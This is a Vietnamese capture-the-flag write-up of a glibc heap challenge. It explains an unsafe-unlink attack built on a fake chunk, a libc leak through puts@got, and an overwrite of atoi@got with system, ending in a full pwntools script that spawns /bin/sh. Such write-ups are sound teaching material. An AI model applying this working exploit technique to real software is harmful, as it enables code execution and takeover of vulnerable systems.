





# Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
RUNPATH:  b'.'
```

Tiếp đến chạy thử chương trình:



Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn4_ul` 

-> `unlink_heap_exploit`

# 2. Khai thác

- Bước 1: Tạo 5 chunk có kích thước lớn để đưa vào 

```
create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")
```

Chunk cấp phát của chúng ta cần > 0x78 để khi free có thể vào được `unsortedbin`

- Bước 2: Tạo 1 fake chunk

```
store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)
edit(3, 0x90, payload)
delete(4)
```

Do ở hàm edit có thể overflow được nên ta sẽ lợi dùng heap_overflow ở đây.

Chúng ta tạo fake chunk tại chunk_3

Khi đó fake chunk tại chunk 3 sẽ trông như sau:



Với `0x6020e0` là fd hay forwarding pointer dùng để trỏ tới chunk tiếp theo trong free list. 

Sau đó ta free fake chunk đó tại vị trí thứ 4:



Nhìn vào free list `unsortedbin`

Chunk tiếp theo là `0x78a1c1` (địa chỉ của fake_chunk ta vừa giải phóng). Khi đó địa chỉ `0x6020e0` sẽ trỏ đến `0x78a1c1`.



Tiếp theo nhìn vào địa chỉ `0x78a1c1` là phần data của chunk thứ 3

-> Chúng ta sẽ sửa data chunk_3 và ghi vào địa chỉ `0x6020e0` 

- Bước 3: Leak libc_base:

```
edit(3, 0x8, p64(0x602020))
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))
```
Tại sao chúng ta lại ghi vào `0x6020e0`?



Đây là địa chỉ của `store`. Nơi đây lưu địa chỉ của chunk's data

Và đầu của địa chỉ này là data của chunk_0.

Khi ta ghi đè vào đây bằng `0x602020` là địa chỉ của `puts@got.plt` 

-> Khi show heap_0 sẽ lấy giá trị tại đây ra và leak được libc.

- Bước 4: Ghi đè `system` vào `atoi_got`

```
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")
```

Ở hàm edit_heap() có 1 hàm readInt() mà return atoi(nptr), ở đây `nptr` là ta nhập vào 

-> Ghi đè atoi() thành system() rồi nhập `/bin/sh` để thực thi.

Như đã nói ở trên, ở vị trí data của chunk_3 là ta sẽ ghi được vào địa chỉ `0x6020e0`. Data chunk_0 ta sẽ có địa chỉ tại `0x6020e0`

-> Khi đó ta ghi data chunk_0 vào data chunk_3

-> Ghi địa chỉ hàm system() vào atoi_got

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn4_ul_patched', checksec=False)

p = process("./pwn4_ul_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:", str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:", str(index))
    p.sendlineafter(b"Input newsize:", str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendafter(b"Input data:",data)

def delete(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:", str(idx))

create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")

store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)

edit(3, 0x90, payload)

delete(4)								#free(4) but 3 in unsoftedbin because of payload made the prog think the 3 th is unsortedbin

edit(3, 0x8, p64(0x602020))				#now all we edit chunk(3) is edit(0x6020e0). 0x6020e0 is the address of all chunk's data address
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))


atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")

p.interactive()
```


